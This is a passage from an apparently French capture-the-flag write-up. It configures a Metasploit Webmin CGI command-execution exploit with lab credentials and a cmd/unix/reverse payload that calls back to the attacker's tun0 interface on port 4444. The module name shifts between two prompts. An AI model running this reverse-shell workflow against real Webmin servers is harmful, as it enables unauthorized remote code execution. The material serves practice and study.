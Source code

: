 L'exploit N°4 a bien fonctionné, suivons la démonstration. Tout d'abord commençons par lister les options disponibles pour l'exploit :

```sh
msf5 use 4
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     10000            yes       The target port (TCP)
   SSL       true             yes       Use SSL
   USERNAME                   yes       Webmin Username
   VHOST                      no        HTTP server virtual host
   
Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580
```

Complétons alors :

```sh
msf5 exploit(unix/webapp/webmin_upload_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/webapp/webmin_upload_exec) > set password videogamer124
password => videogamer124
msf5 exploit(unix/webapp/webmin_upload_exec) > set username agent47
username => agent47
msf5 exploit(unix/webapp/webmin_upload_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > setg lhost tun0
lhost => tun0
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > setg lport 4444
lport => 4444
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  videogamer124    yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     10000            yes       The target port (TCP)
   SSL       false            yes       Use SSL
   USERNAME  agent47          yes       Webmin Username
   VHOST                      no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
```